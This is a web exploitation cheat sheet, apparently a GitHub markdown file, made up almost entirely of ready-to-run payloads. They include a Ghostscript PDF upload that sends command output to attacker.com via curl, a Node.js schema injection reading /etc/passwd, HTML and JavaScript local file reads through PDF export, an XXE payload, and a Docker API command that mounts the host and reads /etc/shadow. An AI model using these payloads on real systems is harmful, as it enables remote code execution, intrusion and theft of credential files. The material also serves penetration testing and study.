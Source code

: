 # Web Exploitation Methods

## Enumeration

### HTTP PROBE using cURL

```
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### PHP Disabled Function Check

```
<?php var_dump(explode(',',ini_get('disable_functions'))); ?>
```

## Exploitation

### PDF RCE

[https://www.openwall.com/lists/oss-security/2018/08/21/2](https://www.openwall.com/lists/oss-security/2018/08/21/2)

```
Content-Disposition: form-data; name="fileToUpload"; filename="pwn.pdf"
Content-Type: application/pdf

%!PS
currentdevice null true mark /OutputICCProfile (%pipe%curl http://attacker.com/?a=$(whoami|base64) )
.putdeviceparams
quit
```

### Node.JS JSON Validation Command Injection (RCE)

```
// https://hackerone.com/reports/894308
const schema = {
  type: 'object',
  properties: {
    'x[console.log(process.mainModule.require(`child_process`).execSync(`cat /etc/passwd`).toString(`utf-8`))]': {
      required: true,
      type:'string'
    }
  },
}
```

### PDF Export Injection / HTML Injection / Server Side Request Forgery (SSRF) Local File Read

#### Using HTML

##### iframe

```
<iframe src="file:///C:/windows/system32/drivers/etc/hosts height=1000 width=1000/>
```

Via [securityonline.info](https://securityonline.info/export-injection-new-server-side-vulnerability/)

##### object

```
<object data=”http://127.0.0.1:8443”/>
```

##### link

```
# local file read
<link rel=attachment src="file:///etc/passwd">
# to extract
pdfdetach -saveall vuln.doc
```

#### Using Javascript

```
<script>x=new XMLHttpRequest; 
x.onload=function(){ document.write(this.responseText) }; 
x.open("GET","file:///etc/passwd"); x.send(); </script> 
```

Via [noob.ninja](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) 

#### object

```
<html>
  <body>
    <object data="file:///etc/passwd"/>
  </body>
</html>
```

#### portal

```
<html>
  <body>
    <portal src="file:///etc/passwd" id=portal></portal>
  </body>
</html>
```

### XXE

- [XXE inside a SOAP node](https://twitter.com/agarri_fr/status/656440244116574208?lang=en):

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://0x0:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### Misc

Docker API (2375/tcp) Easy RCE by PTSwarm

```
# exploit
docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

# file access
cat /mnt/etc/shadow

# RCE
chroot /mnt
```